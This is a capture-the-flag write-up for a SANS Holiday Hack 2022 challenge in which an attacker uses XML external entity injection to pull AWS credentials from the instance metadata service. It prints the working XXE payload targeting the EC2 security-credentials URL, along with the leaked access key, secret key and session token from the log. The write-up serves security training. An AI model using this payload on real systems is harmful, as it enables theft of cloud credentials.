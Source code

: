 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Web Ring
### IMDS, XXE, and Other Abbreviations
Difficulty: :christmas_tree::christmas_tree:
The last step in this attack was to use [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

#### Hints
##### Instance Metadata Service
*From: Alabaster Snowball*  
AWS uses a specific IP address to access [IMDS](https://www.sans.org/blog/cloud-instance-metadata-services-imds-/), and that IP only appears twice in this PCAP.

#### Solution
nowing the attacker extracted the secret keys from the IMDS service, it is possible to filter on the string access within the `weberror.log` file and add some context to identify the complete request:
```bash
thedead@dellian:~$ grep -m 1 -A 24 -B 13 -i "access" weberror.log
18.191.6.79 - - [05/Oct/2022 16:48:57] "GET / HTTP/1.1" 200 -
ic| xml: (b'<?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [ <!ENTITY id SYSTE'
          b'M "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security'
          b'-credentials/ec2-instance"> ]>
         <product><productId>&id;</productId></pro'
          b'duct>
         ')
    parsed_xml: (b'<product><productId>{
                  "Code" : "Success",
                  "LastUpdated" : "2022-10-0'
                 b'5T16:43:21Z",
                  "Type" : "AWS-HMAC",
                  "AccessKeyId" : "ASIAV4AVRXQVJ267'
                 b'LD2Q",
                  "SecretAccessKey" : "OpGR4v70ygZ3RFf4WTzjNL45pQayRwZgBUgd0LJT",'
                 b'
                  "Token" : "IQoJb3JpZ2luX2VjECEaCXVzLWVhc3QtMiJHMEUCIHDsZXiUuHIUrLNH5p'
                 b'AeMiv4aUMVIScjwbo1E9LctQ3rAiEA819eJ24mILbxM3eELK2xrgskHxsRmrza/jIj3y96/sgqsg'
                 b'QI2v//////////ARADGgw0MDM3NzIxMjgyOTgiDMAdG5EGamJ4Z2FwyiqGBPy+CL9AfXIGfLBBDC'
                 b'NkCyl5WOMN7owHr84k+hz4XZYBUp7/+KFZgEiKARroMuD6ofdNRvAj7dQ1/wFxeR6wezUPUkHqtc'
                 b'303oTBY7eTk5EQXClpKsmV1l25QAfD0DOL6FPxpjLPug0AbDFlIhjUeImvk3NBWiUHtXptrJH2ks'
                 b'SaQqU2DBPkkQ4IjMBMbLj0ZdJVWaiUy9sf5ecc2d/qVQU1c6SrYLg0HpyuH9brqm0zuv8/tR17Y/'
                 b'Jo2aNeNGX1wvyb5jP1FcQteypV6IqKIUUCADJ7chYeMypMlwV77phvrZco921O6MV+JlhSIomuzF'
                 b'RLdvzD+RP8DyLZeYZ65vKzr6h0yc+XIHOCT+P01pWQgfZBtvfCJKLKqwTMEbIr/i/xgGmHoCTzx6'
                 b'm38kd4EZvGXZMp3EEasdnqTtKLOR6JFAAlW8SoxOKRL1MshK3SUmYvWnMoLKCotPwyJeAMHEHuZi'
                 b'pNMiZ2gbN//PMbUBnPjNVFBP4SfHaTv7EHzHNpTl5toy8qlPyxE0yLbh5a//DF5wJQE6UKfXWlQh'
                 b'k9/NVM7QAAzEzWPiFTp8ajRIDjPoprVlX3yUaTUHOH8PwMtURCJLl0sOQaJtRGWEMrH52ls5e83p'
                 b'm0ta8257vu8HyTR7zgc/7a0ZsoxetlsB7VYIKyXnETO7SMniTO8R/yE1Wn9qAoWp/jMPvn9pkGOo'
                 b'8CLegclGA49hB/LRr/V1bXEyIIRg5Zn93xXvccMX5QyKGVSRghNOVGn/cCglDWc9zSRFRlZ4tHbl'
                 b'Vi1v8021J04REPR69FDuVvpUzEDJfDF1u4XwYGsp7uuuIngiiegP56H5nSYjmpBfyIURwgNvsz6p'
                 b'tpUvplGCxOvBJcKeyborHJDKG40QRXsLpOgB8NTKhgaFNxO7PjA/YrT7g1rYS7xNrKzVIK4tTwxW'
                 b'B5zN5JAQ3pVRp2JB8Q1ng3qsj3UPfZ3O3JjY4U+rrBKPEHIw9B+Pz6kffOu73aPKgo333w/hd9U4'
                 b'slj74JQXPhO9jCYpAF1bLdS/If20Ed6HvGcAONep0A/FrtZ62EWX4HmeYZ4A==",
                  "Expi'
                 b'ration" : "2022-10-05T23:00:40Z"
                }</productId></product>')
    tree: <Element product at 0x7f9baeffc180>
```
It is possible to observe an XXE attack with the following XML payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-i nstance"> ]>
<product>
	<productId>&id;</productId>
</product>
```
This payload forced the server to fetch the URL `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance` which is the solution for this challenge.  
![169.254.169.254](169.254.169.254.jpg)  
[https://mobile.twitter.com/csecurity7575](https://mobile.twitter.com/csecurity7575)

---
## Recover the Web Ring

### Open Boria Mine Door
### Glamtariel's Fountain
### The Web Ring
## Recover the Cloud Ring
### AWS CLI Intro
### Trufflehog Search
### Exploitation via AWS CLI
## Recover the Burning Ring of Fire
### Buy a Hat
### Blockchain Divination
### Exploit a Smart Contract
### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring